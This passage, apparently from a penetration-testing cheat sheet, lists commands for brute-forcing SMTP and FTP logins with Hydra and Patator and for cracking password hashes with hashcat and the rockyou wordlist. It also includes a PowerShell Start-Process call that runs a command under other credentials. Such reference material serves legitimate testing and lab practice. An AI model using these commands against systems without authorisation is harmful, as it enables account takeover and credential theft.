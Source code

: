 Start-Process with `-Credential`

```
PS > Start-Process -FilePath "cmd" -ArgumentList "/c ping -n 1 10.10.13.37" -Credential $cred
```





# Auth Brute Force




## Hydra

```
root@kali:$ hydra -V -t 20 -f -I -L logins.lst -P /usr/share/john/password.lst 127.0.0.1 -s 8888 smtp
root@kali:$ hydra -V -t 20 -f -I -l admin -P /usr/share/john/password.lst 127.0.0.1 -s 8888 ftp
```




## Patator

```
root@kali:$ patator smtp_login host=127.0.0.1 port=8888 user=FILE0 password=FILE1 0=logins.lst 1=/usr/share/john/password.lst -x ignore:mesg='(515) incorrect password or account name' -x free=user:code=0
root@kali:$ patator ftp_login host=127.0.0.1 port=8888 user=admin password=FILE0 0=/usr/share/john/password.lst -x ignore:mesg='Login incorrect.' -x free=user:code=0
```





# Password Brute Force




## hashcat

```
$ hashcat --example-hashes | grep -B1 -i md5
$ hashcat -m 500 hashes/file.hash /usr/share/wordlists/rockyou.txt --username
$ hashcat -m 500 hashes/file.hash --username --show
```

Benchmarks:

```
root@kali:$ nvidia-smi.exe

# MD5
root@kali:$ ./hashcat64.exe -m 0 -b
# NTLM
root@kali:$ ./hashcat64.exe -m 1000 -b
```
